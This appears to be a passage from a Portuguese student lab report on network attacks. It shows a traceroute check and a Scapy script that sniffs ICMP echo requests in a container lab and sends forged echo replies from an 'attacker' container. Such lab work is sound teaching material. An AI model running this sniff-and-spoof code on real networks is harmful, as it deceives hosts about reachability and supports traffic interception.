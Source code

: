 Finalmente, por questões de confirmação, corremos o comando ```traceroute 8.8.8.8``` e verificamos, através do seguinte _output_, o que tinhamos concluído anteriormente, são necessários 13 "saltos" entre routers para o _packet_ chegar ao destino final.

![Tarefa 1.3](images/LB_13/Tarefa1.3_2.png)

## Tarefa 1.4 - Sniffing and-then Spoofing

Criámos o ficheiro ```task1D.py```:

```py
#!/usr/bin/env python3

from scapy.all import *

def spoof_pkt(pkt):
    # sniff and print out icmp echo request packet
    if ICMP in pkt and pkt[ICMP].type == 8:
        print("Original Packet.........")
        print("Source IP : ", pkt[IP].src)
        print("Destination IP :", pkt[IP].dst)

        # spoof an icmp echo reply packet
        # swap srcip and dstip
        ip = IP(src=pkt[IP].dst, dst=pkt[IP].src, ihl=pkt[IP].ihl)
        icmp = ICMP(type=0, id=pkt[ICMP].id, seq=pkt[ICMP].seq)
        data = pkt[Raw].load
        newpkt = ip/icmp/data

        print("Spoofed Packet.........")
        print("Source IP : ", newpkt[IP].src)
        print("Destination IP :", newpkt[IP].dst)

        send(newpkt, verbose=0)

pkt = sniff(iface='br-37296346f4ee', filter='icmp and host 1.2.3.4', prn=spoof_pkt)
```
Para **_"dar ping"_ a um host não existente na Internet**, corremos o programa no **_attacker container_** e no **_hostA container_** corremos o comando ```ping 1.2.3.4```.
